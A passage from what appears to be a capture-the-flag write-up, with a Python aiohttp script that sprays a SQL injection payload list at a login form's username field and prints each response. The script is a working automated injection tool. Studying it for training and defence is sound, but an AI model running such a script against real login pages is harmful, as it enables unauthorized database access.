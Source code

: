     </div>
</div>

Combining all this into a python script, we get the following script. The reason I have used the `aiohttp` library instead of the usual `requests` is because, I was expecting to make requests of the entire *SQL Injection Payloads List* (which we saw available on [this GitHub repo](https://github.com/payloadbox/sql-injection-payload-list)) and with that scale the `requests` library is very slow.

I saved the following python script as `venicodivici.py`

```py
#!/usr/bin/python3

# Import standard library for asynchronous input/output
# It's actually important because we need an event loop
# that will run our courotines (asynchronus functions)
import asyncio
# Import an asynchronus library for making requests and creating
# servers (much like flask, but async)
import aiohttp

# read the payloads file and store result as a list in
# the variable sql_payloads
with open('payloads-1.txt') as f:
    sql_payloads = f.readlines()

url = "http://venicodivici.co/identification.php"

# The necessary request headers for the request to succeed
headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded"
    }

async def request_maker(session, sql_payload):
	# prepare request payload
    request_payload = f"submitted=1&username={sql_payload}&password="
    async with session.post(url, headers = headers, data = request_payload) as resp:
            # when awaiting or waiting for the response to come, other coroutines can run
            # during that waiting time
            res = await resp.text()
            # print the payload and html response
            print(f"{sql_payload} <>>> {res}")

async def main():
	# Create a list to hold our coroutines
    l = []
    # Create a request session object, which allows us to utilize
    # the same session, cookies and keeps connection alive
    async with aiohttp.ClientSession() as session:
    	# Prepare and store all coroutines that will perform the sql injection
        for sql_payload in sql_payloads:
            l.append(request_maker(session, sql_payload))
        # the gather method allows any available coroutines to run when there is
        # an awaitable (something that waits for something)
        await asyncio.gather(*l)
# Get an event loop and run the coroutine: main
asyncio.run(main())

```
